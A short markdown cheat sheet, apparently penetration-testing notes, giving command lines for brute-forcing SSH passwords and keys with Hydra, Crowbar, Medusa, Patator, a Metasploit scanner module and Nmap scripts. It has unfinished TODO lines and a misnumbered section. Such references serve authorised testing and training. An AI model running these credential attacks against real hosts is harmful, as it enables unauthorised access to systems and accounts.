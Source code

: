 # SSH

## 01 - Hydra

`$ hydra ssh -U`

`$ hydra -l <username> -P passwords.txt ssh://<IP>`

TODO: Provide a syntax to bruteforce ssh keys

`$ hydra sshkey -U`

## 02 - Crowbar

TODO: Provide a syntax of sshkey to brute force targets with crowbar

`$ crowbar -b sshkey -s <IP>/<CIDR> -u <username> -k /path/to/id_rsa`

## 03 - Medusa

`$ medusa -h <IP> -u <username> -p <password> -M ssh`

## 04 - Patator

`$ patator ssh_login -t <int> host=<IP> port=22 user=<username> password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'`

## 05 - Metasploit

- **Bruteforce SSH Public Keys**

Note: Any file extension that ends with .pub

```
msf > use scanner/ssh/ssh_identify_pubkeys

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > options

Module options (auxiliary/scanner/ssh/ssh_identify_pubkeys):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   KEY_FILE                           yes       Filename of one or several cleartext public keys.
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set filename <ssh_public_key>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > run -j
```

## 05 - Nmap

- **Bruteforce SSH Public Keys**

`$ nmap -p 22 --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" <IP>`

`$ nmap -p 22 --script ssh-publickey-acceptance --script-args 'ssh.usernames={"root", "user"}, publickeys={"./id_rsa1.pub", "./id_rsa2.pub"}' <IP>`